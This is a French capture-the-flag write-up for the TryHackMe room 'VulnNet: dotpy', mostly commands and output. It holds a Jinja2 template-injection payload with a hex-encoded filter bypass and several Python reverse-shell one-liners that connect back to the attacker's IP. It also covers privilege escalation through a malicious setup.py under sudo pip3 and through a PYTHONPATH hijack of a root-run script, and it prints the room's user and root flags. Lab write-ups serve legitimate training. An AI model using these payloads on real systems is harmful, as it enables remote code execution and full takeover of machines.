





# VulnNet: dotpy # 
## Task 1 VulnNet: dotpy ##

```bash
tim@kali:~/Bureau/tryhackme/write-up$ sudo sh -c "echo '10.10.84.250 vulnnet-dopy.thm' >> /etc/hosts"
tim@kali:~/Bureau/tryhackme/write-up$ sudo nmap -A vulnnet-dopy.thm -p-
Starting Nmap 7.91 ( https://nmap.org ) at 2021-10-17 21:20 CEST
Nmap scan report for vulnnet-dopy.thm (10.10.84.250)
Host is up (0.042s latency).
Not shown: 65534 closed ports
PORT     STATE SERVICE VERSION
8080/tcp open  http    Werkzeug httpd 1.0.1 (Python 3.6.9)
|_http-server-header: Werkzeug/1.0.1 Python/3.6.9
| http-title: VulnNet Entertainment -  Login  | Discover
|_Requested resource was http://vulnnet-dopy.thm:8080/login
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.91%E=4%D=10/17%OT=8080%CT=1%CU=30204%PV=Y%DS=2%DC=T%G=Y%TM=616C
OS:7887%P=x86_64-pc-linux-gnu)SEQ(SP=102%GCD=1%ISR=10B%TI=Z%CI=Z%II=I%TS=A)
OS:OPS(O1=M506ST11NW6%O2=M506ST11NW6%O3=M506NNT11NW6%O4=M506ST11NW6%O5=M506
OS:ST11NW6%O6=M506ST11)WIN(W1=F4B3%W2=F4B3%W3=F4B3%W4=F4B3%W5=F4B3%W6=F4B3)
OS:ECN(R=Y%DF=Y%T=40%W=F507%O=M506NNSNW6%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%
OS:F=AS%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T
OS:5(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=
OS:Z%F=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF
OS:=N%T=40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40
OS:%CD=S)

Network Distance: 2 hops

TRACEROUTE (using port 21/tcp)
HOP RTT      ADDRESS
1   32.25 ms 10.9.0.1
2   33.29 ms vulnnet-dopy.thm (10.10.84.250)

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 238.07 seconds
```

D'après nmap il y a un seul service, le service http sur le port 8080.   

```bash
tim@kali:~/Bureau/tryhackme/write-up$ gobuster dir -u http://vulnnet-dopy.thm:8080/ -w /usr/share/dirb/wordlists/common.txt --exclude-length 3000 -q
/login                (Status: 200) [Size: 5589]
/logout               (Status: 302) [Size: 219] [--> http://vulnnet-dopy.thm:8080/login]
/register             (Status: 200) [Size: 5021]                                       
```

Je suis obligé d'exclure les page de taille de 3000 car sinon c'est la page d'erreur.  

 

Il faut créer un compte.  
On se connecte 

 

On est sur notre interface principale.   

 

On teste d'exploiter un faille Server side template injection et ça fonctionne car on a bien le résultat de notre multiplication.    

   

On remarque les caractère _.[] sont bloqués.  

```text
On va faire notre revereshell qui sera : python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.9.228.66",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")'
```

   

On encode en hexadécimal notre reverse shell. 

```text
/{{()|attr('\x5f\x5fclass\x5f\x5f')|attr('\x5f\x5fbase\x5f\x5f')|attr('\x5f\x5fsubclasses\x5f\x5f')()|attr('\x5f\x5fgetitem\x5f\x5f')(401)('reverse shell',shell%3dTrue,stdout%3d-1)|attr('communicate')()}}
```

On va inclure ceci a notre reverse shell.  

```bash
/{{()|attr('\x5f\x5fclass\x5f\x5f')|attr('\x5f\x5fbase\x5f\x5f')|attr('\x5f\x5fsubclasses\x5f\x5f')()|attr('\x5f\x5fgetitem\x5f\x5f')(401)('\x70\x79\x74\x68\x6f\x6e\x20\x2d\x63\x20\x27\x69\x6d\x70\x6f\x72\x74\x20\x73\x6f\x63\x6b\x65\x74\x2c\x73\x75\x62\x70\x72\x6f\x63\x65\x73\x73\x2c\x6f\x73\x3b\x73\x3d\x73\x6f\x63\x6b\x65\x74\x2e\x73\x6f\x63\x6b\x65\x74\x28\x73\x6f\x63\x6b\x65\x74\x2e\x41\x46\x5f\x49\x4e\x45\x54\x2c\x73\x6f\x63\x6b\x65\x74\x2e\x53\x4f\x43\x4b\x5f\x53\x54\x52\x45\x41\x4d\x29\x3b\x73\x2e\x63\x6f\x6e\x6e\x65\x63\x74\x28\x28\x22\x31\x30\x2e\x39\x2e\x32\x32\x38\x2e\x36\x36\x22\x2c\x31\x32\x33\x34\x29\x29\x3b\x6f\x73\x2e\x64\x75\x70\x32\x28\x73\x2e\x66\x69\x6c\x65\x6e\x6f\x28\x29\x2c\x30\x29\x3b\x20\x6f\x73\x2e\x64\x75\x70\x32\x28\x73\x2e\x66\x69\x6c\x65\x6e\x6f\x28\x29\x2c\x31\x29\x3b\x6f\x73\x2e\x64\x75\x70\x32\x28\x73\x2e\x66\x69\x6c\x65\x6e\x6f\x28\x29\x2c\x32\x29\x3b\x69\x6d\x70\x6f\x72\x74\x20\x70\x74\x79\x3b\x20\x70\x74\x79\x2e\x73\x70\x61\x77\x6e\x28\x22\x2f\x62\x69\x6e\x2f\x62\x61\x73\x68\x22\x29\x27',shell%3dTrue,stdout%3d-1)|attr('communicate')()}}
```

Ceci sera notre charge utile à mettre en place.   

```bash
tim@kali:~/Bureau/tryhackme/write-up$ nc -lvnp 1234
Ncat: Version 7.91 ( https://nmap.org/ncat )
Ncat: Listening on :::1234
Ncat: Listening on 0.0.0.0:1234
```

On écoute sur le 1234 pour avoir un shell.   

  

On envoi la charge utile avec burp car firefox change les caractères.   

```bash
Ncat: Version 7.91 ( https://nmap.org/ncat )
Ncat: Listening on :::1234
Ncat: Listening on 0.0.0.0:1234
Ncat: Connection from 10.10.84.250.
Ncat: Connection from 10.10.84.250:59708.
web@vulnnet-dotpy:~/shuriken-dotpy$ sudo -l
sudo -l
Matching Defaults entries for web on vulnnet-dotpy:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User web may run the following commands on vulnnet-dotpy:
    (system-adm) NOPASSWD: /usr/bin/pip3 install *
```

On obtient un shell qui nous permet d'exécuter avec les droit system-adm /usr/bin/pip3 install *  

D'après [gtfobin]!(https://gtfobins.github.io/gtfobins/pip/#sudo) on peut obtenire un shell.  


```bash
tim@kali:~/Bureau/tryhackme/write-up$ nc -lvnp 1337
Ncat: Version 7.91 ( https://nmap.org/ncat )
Ncat: Listening on :::1337
Ncat: Listening on 0.0.0.0:1337
```

On écoute le port 1337 pour avoir un shell.   

```bash
web@vulnnet-dotpy:/tmp$ mkdir pe
cd pe
web@vulnnet-dotpy:/tmp/pe$ 
web@vulnnet-dotpy:/tmp/pe$ echo 'import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.9.228.66",1337));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/sh")' > setup.py
web@vulnnet-dotpy:~/shuriken-dotpy$ sudo -u system-adm /usr/bin/pip3 install /tmp/pe
p/pe -u system-adm /usr/bin/pip3 install /tmp
Processing /tmp/pe
```

On fait un reverse shell dans le répertroire /tmp/pe   
On l'exécute avec pip3 avec les droits system-adm.   

**What is the user flag? (user.txt)**

```bash
Ncat: Version 7.91 ( https://nmap.org/ncat )
Ncat: Listening on :::1337
Ncat: Listening on 0.0.0.0:1337
Ncat: Connection from 10.10.34.103.
Ncat: Connection from 10.10.34.103:54920.
$ id
id
uid=1000(system-adm) gid=1000(system-adm) groups=1000(system-adm),24(cdrom)  
python3 -c 'import pty;pty.spawn("/bin/bash")'

system-adm@vulnnet-dotpy:/tmp/pip-1d34oyuu-build$ cd /home/system-adm
cd /home/system-adm
system-adm@vulnnet-dotpy:~$ ls
ls
Desktop    Downloads  Pictures  Templates  Videos
Documents  Music      Public    user.txt
system-adm@vulnnet-dotpy:~$ cat user.txt
cat user.txt
THM{91c7547864fa1314a306f82a14cd7fb4}
```

On a un shell avec les droits system-adm.    
Dans le répertoire /home/system-adm on trouve un fichier user.txt, on le lit et on trouve le flag.   
Le flag est : THM{91c7547864fa1314a306f82a14cd7fb4}  

**What is the root flag? (root.txt)**   

```bash
system-adm@vulnnet-dotpy:~$ sudo -l
sudo -l
Matching Defaults entries for system-adm on vulnnet-dotpy:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User system-adm may run the following commands on vulnnet-dotpy:
    (ALL) SETENV: NOPASSWD: /usr/bin/python3 /opt/backup.py
```

Dans la configuration sudo on peut modifier les variables d'environnement donc fait une usurpation de fichier, de plus on peut exécuter /opt/backup.py avec les droits root.   

```bash
system-adm@vulnnet-dotpy:~$ ls -la /opt/backup.py
ls -la /opt/backup.py
-rwxrwxr-- 1 root root 2125 Dec 21  2020 /opt/backup.py
```

On a pas les droits pour modifier le fichier backup.py.    

```bash
system-adm@vulnnet-dotpy:~$ cat /opt/backup.py | head
cat /opt/backup.py | head
from datetime import datetime
from pathlib import Path
import zipfile


OBJECT_TO_BACKUP = '/home/manage'  # The file or directory to backup
BACKUP_DIRECTORY = '/var/backups'  # The location to store the backups in
MAX_BACKUP_AMOUNT = 300  # The maximum amount of backups to have in BACKUP_DIRECTORY
```

On voit que zipfile est importé, on va l'usurper.   

```bash
system-adm@vulnnet-dotpy:/tmp$ echo 'import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.9.228.66",666));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/sh")' > zipfile.py                 

```

On fait un autre reverse shell.   

```bash
tim@kali:~/Bureau/tryhackme/write-up$ nc -lvnp 666
Ncat: Version 7.91 ( https://nmap.org/ncat )
Ncat: Listening on :::666
Ncat: Listening on 0.0.0.0:666
```

On écoute sur le port 666 pour avoir le shell.   

```bash
system-adm@vulnnet-dotpy:/tmp$ sudo PYTHONPATH=/tmp/ /usr/bin/python3 /opt/backup.py
p.py PYTHONPATH=/tmp/ /usr/bin/python3 /opt/backup
```

On exécute avec la variable PYTHONPATH pour dire que les librairies sont dans tmp, puis on exécute backup.py qui va exécuter notre reverse shell.   

```bash
tim@kali:~/Bureau/tryhackme/write-up$ nc -lvnp 666
Ncat: Version 7.91 ( https://nmap.org/ncat )
Ncat: Listening on :::666
Ncat: Listening on 0.0.0.0:666
Ncat: Connection from 10.10.34.103.
Ncat: Connection from 10.10.34.103:40524.
# id
id
uid=0(root) gid=0(root) groups=0(root)
# cat /root/root.txt
cat /root/root.txt
THM{734c7c2f0a23a4f590aa8600676021fb}
```

On obtient un shell avec les droits root.
On lit le fichier root.txt dans root et on a notre flag.    
Le flag est : THM{734c7c2f0a23a4f590aa8600676021fb}    